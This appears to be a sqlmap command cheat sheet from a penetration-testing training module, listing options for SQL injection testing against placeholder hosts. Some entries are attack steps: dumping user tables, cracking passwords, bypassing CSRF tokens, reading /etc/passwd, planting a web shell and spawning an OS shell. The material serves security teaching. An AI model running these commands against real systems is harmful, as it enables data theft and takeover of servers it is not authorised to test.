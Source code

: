 <div class="text-center text-break">
<h5><i class="fad fa-file-alt"></i>&nbsp; Cheat Sheet</h5>
<p>The cheat sheet is a useful command reference for this module.</p>
<div class="table-responsive"><table class="table table-striped text-left">
<thead>
<tr>
<th><strong>Command</strong></th>
<th><strong>Description</strong></th>
</tr>
</thead>
<tbody>
<tr>
<td><code>sqlmap -h</code></td>
<td>View the basic help menu</td>
</tr>
<tr>
<td><code>sqlmap -hh</code></td>
<td>View the advanced help menu</td>
</tr>
<tr>
<td><code>sqlmap -u "http://www.example.com/vuln.php?id=1" --batch</code></td>
<td>Run <code>SQLMap</code> without asking for user input</td>
</tr>
<tr>
<td><code>sqlmap 'http://www.example.com/' --data 'uid=1&amp;name=test'</code></td>
<td><code>SQLMap</code> with POST request</td>
</tr>
<tr>
<td><code>sqlmap 'http://www.example.com/' --data 'uid=1*&amp;name=test'</code></td>
<td>POST request specifying an injection point with an asterisk</td>
</tr>
<tr>
<td><code>sqlmap -r req.txt</code></td>
<td>Passing an HTTP request file to <code>SQLMap</code></td>
</tr>
<tr>
<td><code>sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'</code></td>
<td>Specifying a cookie header</td>
</tr>
<tr>
<td><code>sqlmap -u www.target.com --data='id=1' --method PUT</code></td>
<td>Specifying a PUT request</td>
</tr>
<tr>
<td><code>sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt</code></td>
<td>Store traffic to an output file</td>
</tr>
<tr>
<td><code>sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch</code></td>
<td>Specify verbosity level</td>
</tr>
<tr>
<td><code>sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"</code></td>
<td>Specifying a prefix or suffix</td>
</tr>
<tr>
<td><code>sqlmap -u www.example.com/?id=1 -v 3 --level=5</code></td>
<td>Specifying the level and risk</td>
</tr>
<tr>
<td><code>sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba</code></td>
<td>Basic DB enumeration</td>
</tr>
<tr>
<td><code>sqlmap -u "http://www.example.com/?id=1" --tables -D testdb</code></td>
<td>Table enumeration</td>
</tr>
<tr>
<td><code>sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname</code></td>
<td>Table/row enumeration</td>
</tr>
<tr>
<td><code>sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"</code></td>
<td>Conditional enumeration</td>
</tr>
<tr>
<td><code>sqlmap -u "http://www.example.com/?id=1" --schema</code></td>
<td>Database schema enumeration</td>
</tr>
<tr>
<td><code>sqlmap -u "http://www.example.com/?id=1" --search -T user</code></td>
<td>Searching for data</td>
</tr>
<tr>
<td><code>sqlmap -u "http://www.example.com/?id=1" --passwords --batch</code></td>
<td>Password enumeration and cracking</td>
</tr>
<tr>
<td><code>sqlmap -u "http://www.example.com/" --data="id=1&amp;csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"</code></td>
<td>Anti-CSRF token bypass</td>
</tr>
<tr>
<td><code>sqlmap --list-tampers</code></td>
<td>List all tamper scripts</td>
</tr>
<tr>
<td><code>sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba</code></td>
<td>Check for DBA privileges</td>
</tr>
<tr>
<td><code>sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"</code></td>
<td>Reading a local file</td>
</tr>
<tr>
<td><code>sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"</code></td>
<td>Writing a file</td>
</tr>
<tr>
<td><code>sqlmap -u "http://www.example.com/?id=1" --os-shell</code></td>
<td>Spawning an OS shell</td>
</tr>
</tbody>
</table></div>
</div>
